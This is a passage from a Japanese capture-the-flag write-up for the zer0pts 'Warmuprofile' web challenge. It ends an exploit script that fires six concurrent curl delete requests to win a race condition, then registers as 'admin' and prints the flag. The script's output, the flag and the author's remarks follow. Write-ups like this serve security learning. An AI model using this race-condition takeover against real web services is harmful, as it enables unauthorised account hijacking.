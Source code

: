 ```python
curl_cmd = f"curl -X POST '{BASE_URL}/user/{username}/delete' -b 'connect.sid={sid}' -u '{CS_USERNAME}:{CS_PASSWORD}'"
subprocess.run(
    f"{curl_cmd} & {curl_cmd} & {curl_cmd} & {curl_cmd} & {curl_cmd} & {curl_cmd}",
    shell=True,
    capture_output=True,
)

res = client.post(
    f"{BASE_URL}/register",
    data={
        "username": "admin",
        "password": "admin",
        "profile": "x",
    },
)
assert res.status_code == 302, res

print(client.get(f"{BASE_URL}/flag").text)
```

```shell
$ python exploit.py
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Flag - Warmuprofile</title>
    <link rel="stylesheet" href="https://unpkg.com/sakura.css/css/sakura.css" type="text/css">
    <link rel="stylesheet" href="/style.css" type="text/css">
</head>
<body>
    <h1>Flag</h1>

    <p>Congratulations! The flag is: <code>zer0pts{fire_ice_storm_di_acute_brain_damned_jugem_bayoen_bayoen_bayoen_10cefab0}</code></p>
</body>
</html>
```

### フラグ

```
zer0pts{fire_ice_storm_di_acute_brain_damned_jugem_bayoen_bayoen_bayoen_10cefab0}
```

ダミーフラグの`nek0pts{...}`が好きです。

### 感想

誘導がわかりやすくて、warmupらしい素直なrace conditionという感じでした[^warmuprofile-02]。


[^top-01]: 一方で、ひとりでもくもくと問題に挑んでフラグを取りに行くのも達成感があって気持ちが良いので、どちらが良いかは微妙なところ。
[^warmuprofile-01]: writeupを書いてる途中で気づいたんですが、warmup profileでなくてwarmu**p**rofileだったのか。文字遊び好きです。
[^warmuprofile-02]: [作問者writeup](https://nanimokangaeteinai.hateblo.jp/entry/2023/07/17/141919#Web-137-Warmuprofile-48-solves)によれば、2つセッションつくるのが想定だったみたいです。たしかに。
[^jqi-01]: レスポンス内容の差異がなかったとしてもtime-basedなオラクルはたぶん構成可能です。やりたくなかったので、親切設計でありがたかったです。
[^plain-blog-01]: 歴史的経緯・慣習的なものなので必要という側面もあるかもしれないですが、それはそれとして。